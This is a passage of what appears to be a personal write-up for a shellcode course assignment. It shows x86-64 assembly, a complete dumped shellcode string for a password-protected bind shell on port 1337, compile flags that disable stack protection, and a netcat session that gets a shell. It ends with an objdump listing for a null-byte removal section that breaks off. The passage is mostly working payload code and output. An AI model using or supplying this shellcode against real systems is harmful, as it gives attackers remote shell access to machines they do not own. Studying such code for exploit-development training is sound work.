 ```nasm
   mov al, 59			; execve syscall value
   mov rdi, 0x68732f2f6e69622f  ; "/bin//sh"
   push rdi			
   mov rdi, rsp			; RDI point to "/bin//sh"
          			; RSI already set to null pointer
   cdq				; RDX set to null pointer
   syscall                  	; exec syscall
```
Then we extract the shellcode :
```plaintext
skrox@kali:~$ ./compile.sh bind-pass
[x] Assembling...
[x] Linking...
[x] Dumped shellcode :
\x31\xff\xf7\xe7\xff\xc7\x89\xfe\xff\xc7\xb0\x29\x0f\x05\x89\xd3\x52\x66\x68\x05\x39\x66\x57\x89\xc7
\x48\x89\xe6\xb2\x10\xb0\x31\x0f\x05\x89\xde\xb0\x32\x0f\x05\x99\xb0\x2b\x0f\x05\x97\x48\x89\xe6\xb2
\x08\x89\xd8\x0f\x05\x48\x87\xfe\x48\xb8\x4c\x33\x33\x74\x50\x34\x73\x73\x48\xaf\x48\x87\xfe\x75\xe3
\x89\xde\x31\xc0\x83\xc6\x03\xff\xce\xb0\x21\x0f\x05\x75\xf8\xb0\x3b\x53\x48\xbf\x2f\x62\x69\x6e\x2f
\x2f\x73\x68\x57\x48\x89\xe7\x89\xde\x99\x0f\x05
```
We copy paste it into a C++ file (why not ?), compile it and execute it : 
```plaintext
skrox@kali:~$ g++ -fno-stack-protector -z execstack -o shellcode shellcode.cpp 
skrox@kali:~$ ./shellcode 
Shellcode size : 110

```
And in another terminal :
```plaintext
skrox@kali:~$ nc -nv 127.0.0.1 1337
(UNKNOWN) [127.0.0.1] 1337 (?) open
test
ls
L33tP4ss
id
uid=1000(skrox) gid=1000(skrox) groups=1000(skrox)
```
We are done with the first part.

## Removing Null bytes from the bind shellcode from the course

### Dump of the original shellcode

```nasm
skrox@kali:~$ objdump -M intel -d BindShell-original

BindShell-original:     format de fichier elf64-x86-64


Déassemblage de la section .text :

0000000000401000 <_start>:
  401000:	b8 29 00 00 00       	mov    eax,0x29
  401005:	bf 02 00 00 00       	mov    edi,0x2
  40100a:	be 01 00 00 00       	mov    esi,0x1
  40100f:	ba 00 00 00 00       	mov    edx,0x0
  401014:	0f 05                	syscall 
  401016:	48 89 c7             	mov    rdi,rax
  401019:	48 31 c0             	xor    rax,rax
```